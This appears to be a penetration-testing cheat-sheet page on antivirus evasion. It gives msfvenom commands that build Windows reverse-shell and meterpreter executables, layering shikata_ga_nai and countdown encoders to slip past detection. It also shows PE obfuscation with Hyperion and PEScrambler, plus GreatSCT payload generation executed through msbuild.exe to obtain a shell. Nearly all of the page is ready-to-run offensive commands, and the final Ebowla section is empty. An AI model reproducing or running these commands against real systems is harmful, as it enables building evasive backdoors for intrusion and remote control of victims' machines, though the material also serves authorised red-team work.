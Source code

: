 


## Tools



### msfvenom

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```



### Veil-Evasion

Hyperion + Pescramble

```
$ wine hyperion.exe input.exe output.exe
$ wine PEScrambler.exe -i input.exe -o output.exe
```



### GreatSCT

* [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

{% embed url="https://youtu.be/krC5j1Ab44I?t=3730" %}

Install and generate a payload:

```
$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
$ cd ~/tools/GreatSCT/setup
$ ./setup.sh
$ cd .. && ./GreatSCT.py
...generate a payload...
$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```

Exec with `msbuild.exe` and get a shell:

```
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```



### Ebowla
